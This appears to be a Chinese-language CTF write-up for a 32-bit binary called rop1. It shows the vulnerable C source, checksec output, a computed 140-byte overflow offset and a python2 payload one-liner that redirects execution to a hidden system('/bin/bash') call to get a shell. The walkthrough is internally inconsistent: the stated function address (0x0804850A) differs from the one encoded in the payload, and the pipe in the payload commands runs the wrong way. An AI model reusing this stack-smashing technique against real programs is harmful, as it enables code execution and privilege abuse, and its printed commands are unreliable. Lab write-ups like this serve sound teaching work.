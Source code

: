# 代码审计
```

int not_called() {
	return system("/bin/bash");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
        be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```
可以看到main中会先弄好了id，然后调用```vulnerable_function()```这个函数

而在函数中看到，是一个普通的栈溢出，再查看程序保护

>➜  rop1 checksec rop1 
[*] '/home/mjr/Desktop/pico/rop1/rop1'  
    Arch:     i386-32-little  
    RELRO:    Partial RELRO  
    Stack:    No canary found  
    NX:       NX enabled  
    PIE:      No PIE (0x8048000)

几乎没有什么保护，直接干就是了，把```not_called()```的地址修改到```vulnerable_function()```函数的```saved-eip```中

## ```not_called()```地址
由于不开启PIE保护，函数代码段地址是固定的，在IDA中找到函数地址
>0x0804850A

## ```覆盖长度```
利用gdb调试一次，查看相应的偏移
![stack](stack.png)
可以计算相应的长度
>0xffffd07c-0xffffcff0=0x8c(140)

所以对应的payload应该是
>'a'*140+0x0804850A

# 利用
正常payload应该如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'"

但是运行起来却不能getshell

根据给的hint，这个shell会在标准输入之后关闭

~~我也不知道是怎么回事啊！~~  输入如下

>./rop1 | python2 -c "print 'a'*0x8c+'\xa4\x84\x04\x08'";sh

getshell